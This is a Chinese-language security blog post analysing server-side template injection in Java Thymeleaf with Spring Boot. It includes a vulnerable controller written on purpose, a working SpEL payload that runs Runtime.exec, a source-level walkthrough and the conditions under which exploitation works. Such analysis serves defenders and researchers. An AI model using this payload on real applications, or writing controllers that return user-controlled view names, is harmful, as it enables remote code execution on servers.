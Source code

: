 ```yaml
---
layout:     post
title:      Java-Thymeleaf-模板注入分析
subtitle:   简单分析
date:       2020-9-22
author:     BY Diego
header-img: img/wenzhang/Thymeleaf.jpg
catalog: true
tags:
    - Java
    - 命令注入
---
```


# Java Thymeleaf 模板注入分析

## 模板基本用法



在 springboot 常与 Thymeleaf  搭配使用

模板使用方法，return 为模板的名称

![wHnPeJ.png](https://s1.ax1x.com/2020/09/21/wHnPeJ.png)



![wHn9L4.png](https://s1.ax1x.com/2020/09/21/wHn9L4.png)



效果

![](https://s1.ax1x.com/2020/09/21/wHn6pV.png)



常见用法

https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html

## 模板注入



当return 可控时，或者 返回值为空但url 可控时 就存在模板注入

```java
@Controller
@RequestMapping("/thymeleaf")
public class IndexController {

    //情况一
    @GetMapping("/test")
    public String test(String test){
        return test;
    }

    // 情况二
    @GetMapping("/test1/{test}")
    public void test1(){

    }
}
```



测试payload 

```
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x
```





![wHKbee.png](https://s1.ax1x.com/2020/09/21/wHKbee.png)



![wHMuOU.png](https://s1.ax1x.com/2020/09/21/wHMuOU.png)



## 漏洞分析



情况一

在 `org.thymeleaf.spring5.view` 中的 `renderFragment`方法

`viewTemplateName` 的值即为可控输入，并return的值 ，如果值中包含`::` 则进入下面的分只（278行）,然后拼接成 `~{__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x}`

![wHMzN9.png](https://s1.ax1x.com/2020/09/21/wHMzN9.png)

跟进

![wH3R8s.png](https://s1.ax1x.com/2020/09/21/wH3R8s.png)



`input` 值被 `StandardExpressionPreprocessor.preprocess`处理 

![wH12X6.png](https://s1.ax1x.com/2020/09/21/wH12X6.png)



处理代码,有一个正则匹配`\_\_(.*?)\_\_` 。处理后变成 `${T(java.lang.Runtime).getRuntime().exec("calc")}`

```java
 static String preprocess(
            final IExpressionContext context,
            final String input) {
           //PREPROCESS_DELIMITER 的值为 _
        if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
            // Fail quick
            return input;
        }

        final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
        if (!(expressionParser instanceof StandardExpressionParser)) {
            // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
            // depends on this specific implementation of the parser.
            return input;
        }
			//PREPROCESS_EVAL_PATTERN  的值为 \_\_(.*?)\_\_
        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
        
        if (matcher.find()) {

            final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
            int curr = 0;
            
            do {
                
                final String previousText = 
                        checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
                final String expressionText = 
                        checkPreprocessingMarkUnescaping(matcher.group(1));
                        
                strBuilder.append(previousText);
                
                final IStandardExpression expression =
                        StandardExpressionParser.parseExpression(context, expressionText, false);
                if (expression == null) {
                    return null;
                }
                
                final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                
                strBuilder.append(result);
                
                curr = matcher.end(0);
                
            } while (matcher.find());
            
            final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
            
            strBuilder.append(remaining);
            
            return strBuilder.toString().trim();
            
        }
        
        return checkPreprocessingMarkUnescaping(input);
        
    }
```



继续跟进到`execute`方法

![wHMXBF.png](https://s1.ax1x.com/2020/09/21/wHMXBF.png)



下图可以看到是使用的`SPEL` 引擎，因此只要满足`__(${SPEL})__::` 这中格式即可达到注入效果，不管前后有何值（除去redirect:等），绕过可用SPEL 的绕过方式

![wHMxAJ.png](https://s1.ax1x.com/2020/09/21/wHMxAJ.png)



情况二也类似

如果return 为空，那么url就会当作模板值



## 利用条件



不能有` @ResponseBody` 或者 `@RestController`

如下

```java
    @GetMapping("/test")
    @ResponseBody
    public String test(String test){
        return test;
    }
```



方法参数中不能有 `HttpServletResponse`

```java
    @GetMapping("/system/menuStyle/{style}")
    public void menuStyle(@PathVariable String style, HttpServletResponse response)
    {
        CookieUtils.setCookie(response, "nav-style", style);
    }
```



在返回值前面不能加 "redirect:"

```java
  @GetMapping("/test")
    public String test(String test){
        return "redirect:" + test ;
    }
```

